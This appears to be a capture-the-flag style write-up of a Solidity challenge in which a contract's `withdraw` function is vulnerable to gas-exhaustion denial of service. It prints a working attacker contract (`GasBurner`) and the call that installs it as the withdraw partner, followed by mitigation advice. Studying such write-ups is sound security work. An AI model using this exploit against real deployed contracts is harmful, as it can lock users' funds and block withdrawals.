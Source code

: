 # Introduction

The Denial contract demonstrates a vulnerability that enables a **Denial of Service (DoS)** attack using unbounded gas consumption. The issue arises from improper handling of external calls using call without specifying a gas limit.

# Target
Prevent the `withdraw` function from successfully executing, blocking withdrawals indefinitely.

# Context
The Denial contract has the following key components:
* A `partner` variable (type `address`) to receive 1% of the contract's balance.
* An `owner` variable (type `address`) set to a fixed `address`.

* The `withdraw` function sends ETH to `partner` using `call` without a gas limit, making it vulnerable to gas exhaustion.

* An attacker can deploy a malicious contract with an expensive operation in the `receive` function to consume all available gas.

# Security Vulnerability

The `withdraw` function in the vulnerable contract allows a denial-of-service (DoS) attack due to improper handling of external calls using `call` without setting a gas limit. This enables a malicious contract to consume all gas and revert the transaction.

## Exploit Steps

### Deploy the Malicious `GasBurner` Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GasBurner {
    uint256 n;

    function burn() internal {
        while (gasleft() > 0) {
            n += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```

1. Deploy `GasBurner` and copy its address.
2. Call the vulnerable contract's `setWithdrawPartner` method to set `GasBurner` as the partner:

   ```javascript
   await contract.setWithdrawPartner('<gas-burner-address>')
   ```

Now, whenever `withdraw` is called, it triggers the `receive` function of `GasBurner` and consumes all gas, causing `withdraw` to fail with an "out of gas" exception.

## Improper Gas Handling

In the vulnerable contract, the `withdraw` function executes an external call without limiting gas:

```solidity
    partner.call{value: amountToSend}("");
    payable(owner).transfer(amountToSend);
```

Using `call` sends all available gas, enabling malicious contracts to perform expensive operations and exhaust the gas limit.

## Gas Consumption Attack

The `GasBurner` contract’s `burn` function runs a costly operation:

- The loop `while (gasleft() > 0)` increments a state variable, which is expensive due to storage writes.
- The loop consumes all available gas, causing the original `withdraw` call to fail.

## Mitigation Strategy

To prevent this vulnerability, always set a gas limit when making external calls:

```solidity
(bool success, ) = partner.call{value: amountToSend, gas: 2300}("");
require(success, "Transfer failed");
```

- Limiting gas to 2,300 ensures only basic operations can run, preventing expensive loops.
- Alternatively, use `transfer` or `send` instead of `call` for fixed gas limits.

## Ownership Verification

Test the fix by calling `withdraw` again. If it completes successfully, the issue is resolved.

## Summary

This vulnerability arises from improper use of `call` without gas control. Setting a gas limit prevents malicious contracts from consuming all gas and causing DoS attacks. Always use safe patterns when making external calls!

* Note!!: An external ``CALL`` can use at most 63/64 of the gas currently available at the time of the ``CALL``. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent ``call``) can be used to mitigate this particular attack.